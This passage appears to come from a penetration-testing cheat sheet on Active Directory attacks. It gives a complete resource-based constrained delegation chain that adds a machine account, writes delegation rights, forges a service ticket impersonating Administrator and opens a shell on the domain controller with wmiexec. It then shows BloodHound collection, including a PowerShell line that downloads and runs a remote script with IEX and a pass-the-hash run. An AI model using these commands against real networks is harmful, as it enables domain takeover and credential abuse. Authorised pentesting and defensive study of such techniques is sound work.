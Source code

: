 - Create a computer X (rbcd$)
```
addcomputer.py -computer-name 'rbcd$' -computer-pass 'rbcdpass' -dc-host my.domain.com 'my.domain.com/pentestuser:myPass0Rd'
```
- Add delegation write on our target from X
```
rbcd.py -delegate-from 'rbcd$' -delegate-to 'MACHINEACCOUNT$' -dc-ip 'DC.my.domain.com' -action 'write' my.domain.com/pentestuser:myPass0Rd
```
- Perform an s4u2self query followed by an S4u2proxy
```
getST.py -spn 'cifs/DC.my.domain.com' -impersonate Administrator -dc-ip 'DC.my.domain.com' my.domain.com/pentestuser:myPass0Rd

export KRB5CCNAME=Administrator@cifs_DC.my.domain.com@my.domain.com.ccache
wmiexec.py  -u Administrator -k -no-pass @DC.my.domain.com
```
Once the exploit is successful, rbcd entry can be flushed and the computer account deleted :
```
rbcd.py -delegate-from 'rbcd$' -delegate-to 'MACHINEACCOUNT$' -dc-ip 'DC.my.domain.com' -action 'flush' my.domain.com/pentestuser:myPass0Rd

addcomputer.py -computer-name 'rbcd$' -computer-pass 'rbcdpass' -dc-host DC.my.domain.com 'my.domain.com/pentestuser:myPass0Rd' -delete
```
### ACL Abuse
Bloodhound can help to enumarate ACL on a domain. It can be executed from Windows computer (using SharpHound) or Linux  computer (using bloodhound-python): 
- Windows 
SharpHound can be run as an exe file or from memory in PowerShell
```
#As an exe file from Domain joined Windows
SharpHound.exe -c All --domain my.domain.com --searchforest --zipfilename corp.zip

#From PowerShell 
(New-Object System.Net.WebClient).DownloadString('http://192.168.90.128:8000/SharpHound.ps1') | IEX
Invoke-BloodHound -CollectionMethod All -Domain my.domain.com -ZipFilename corp -SearchForest
```
- Linux
```
bloodhound-python -u pentestuser -p MyPass  -d my.domain.com -ns 10.X.X.X --dns-tcp -c All --zip --dns-timeout 120

bloodhound-python -u 'pentestuser' --hashes aad3b435b51404eeaad3b435b51404ee:aaaaaaaaaabbbbbbbbbbbcccccddddeeecfe -d my.domain.com  -ns 10.X.X.X --dns-tcp -c All --zip --dns-timeout 120
```
The `ns` option is for the DNS server which in some cases differs from the DC.
The output from the commands above is a zip file that should be imported in `Bloodhound` GUI.
Below are the commands to install and launch `BloodHound`:
```
sudo apt update && sudo apt install -y bloodhound
sudo neo4j console
bloodhound
```
When looking for ACL, a care should be given to the following privileges given to owned accounts:
- ForceChangePassword 
- GenericWrite  
- WriteDacl  
- Add self 
- AddMember  
- WriteOwner  
- GenericAll  
- Read Laps password 
- ForceChangePassword 
